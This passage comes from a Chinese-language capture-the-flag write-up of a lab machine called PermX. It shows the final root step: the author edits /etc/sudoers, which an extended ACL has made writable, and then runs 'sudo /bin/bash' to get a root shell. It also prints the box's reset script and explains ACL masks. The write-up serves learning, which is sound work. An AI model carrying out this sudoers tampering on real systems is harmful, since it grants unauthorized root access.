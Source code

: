 ```bash
mtz@permx:~/.cache$ vim /etc/sudoers
mtz@permx:~/.cache$ sudo /bin/bash
root@permx:/home/mtz/.cache#
```
- 可以看到ACL被修改的文件权限后面多了个加号：`-r--rwx---+`。后来查了下这表示该文件有扩展的ACL。
- 中间还失败了一下，感觉有对`sudoers`文件有恢复机制


## flag: root

```bash
root@permx:/home/mtz/.cache# cd 
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt 
7060e<...SNIP...>1b55
```


---

## 总结·后记

2024/07/07

……密码重用不要忘。


### 作者预想的root路径

```bash
root@permx:~# cat reset.sh 
#!/bin/bash

/usr/bin/cp /root/backup/passwd /etc/passwd
/usr/bin/cp /root/backup/shadow /etc/shadow
/usr/bin/cp /root/backup/sudoers /etc/sudoers
/usr/bin/cp /root/backup/crontab /etc/crontab
/usr/bin/setfacl -b /root/root.txt /etc/passwd /etc/shadow /etc/crontab /etc/sudoers

/usr/bin/find /home/mtz -type l ! -name "user.txt" -mmin -3 -exec rm {} \;

root@permx:~# crontab -l
<...SNIP...>
*/3 * * * * /root/reset.sh
```


### 文件权限之扩展ACL

查了下这个扩展ACL，原来可以用`getfacl`命令查看具体内容：
```bash
mtz@permx:~/.cache$ getfacl /etc/sudoers
getfacl: Removing leading '/' from absolute path names
# file: etc/sudoers
# owner: root
# group: root
user::r--
user:mtz:rwx
group::r--
mask::rwx
other::---
```
- 掩码条目（mask）定义了对文件的最大允许权限。